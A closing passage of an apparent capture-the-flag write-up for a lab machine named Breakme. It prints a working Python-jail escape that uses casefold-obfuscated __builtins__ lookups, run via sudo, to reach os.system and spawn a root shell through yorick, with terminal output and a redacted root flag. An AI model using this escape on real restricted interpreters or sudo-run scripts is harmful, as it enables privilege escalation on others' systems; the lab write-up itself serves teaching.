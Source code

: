 Finally tried payload from that writeup and be able to get root shell.

```bash
youcef@Breakme:~/.ssh$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever  
  Or will you BreakMe  
>> print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()])
<built-in function system>
>> __builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')
 Copyright (c) 2005.  The Regents of the University of California.
 All rights reserved.  Yorick 2.2.04 ready.  For help type 'help'
 > system, "bash"
 root@Breakme:/home/youcef/.ssh# id
 uid=0(root) gid=0(root) groups=0(root)
 root@Breakme:/home/youcef/.ssh# cd /root
root@Breakme:~# ls
index.php  jail.py
root@Breakme:~# ls -la
total 52
drwx------  3 root root 4096 Mar 21  2024 .
drwxr-xr-x 18 root root 4096 Aug 17  2021 ..
lrwxrwxrwx  1 root root    9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rwx------  1 root root 5438 Jul 31  2023 index.php
-rw-r--r--  1 root root 5000 Mar 21  2024 jail.py
-rw-r--r--  1 root root    0 Mar 21  2024 .jail.py.swp
-rw-------  1 root root   33 Aug  3  2023 .lesshst
drwxr-xr-x  3 root root 4096 Aug 17  2021 .local
-rw-------  1 root root 7575 Feb  4  2024 .mysql_history
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-------  1 root root   33 Aug  3  2023 .root.txt
root@Breakme:~# cat .root.txt
e257d5848141.....REDACTED
```

That’s it for this machine.✅
